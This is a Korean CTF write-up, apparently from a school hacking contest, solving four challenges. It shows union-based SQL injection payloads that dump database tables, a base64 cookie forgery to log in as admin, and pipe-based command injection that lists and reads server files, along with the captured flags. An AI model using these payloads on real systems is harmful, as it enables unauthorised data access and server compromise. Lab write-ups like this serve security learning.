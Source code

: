 고등해커 Write_Up (Young Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

#### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

위 사진과 같이 and가 먹히는걸 확인할 수 있다.
#### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> no=3 and 3 order by 1
> 
> no=3 and 3 order by 2
> 
> no=3 and 3 order by 3 여기서 부터 오류

따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> no=3 union select 1,info from information_schema.processlist order by 1

쿼리 출력을 이용하여 컬럼명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
(order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![fleg 알아내기!](./선린의털(5).PNG)

> no=3 union select 1, group_concat(content) from contents order by 1

이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

##### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> sunrin 으로 로그인하여 f12로 쿠키 확인 
> > username값 확인 (base64 인코딩 되어있음)
> >> admin (base64로 인코딩)해서 username 값에 넣기

![쿠키 확인](./Basic_Login(1).PNG)

----------------------------------

개발자 도구로 username 변수 값 확인

base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

-------------------------------

admin을 base64로 인코딩하여 username 변수에 대입

새로고침 -> clear

##### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> 이 문제와 비슷한 문제를 본적이 있음
> > 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

-----------------------------

> 아무 값 | ls

or 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> 아무 값 | cat flag 파일 이름

##### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> nc로 접속해보니 일반적인 방정식 문제였다.
> > 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

##### 계수 입력하면 풀어주는 코드

```{.python}
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./Easy_Math_Game(3).PNG)

##### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}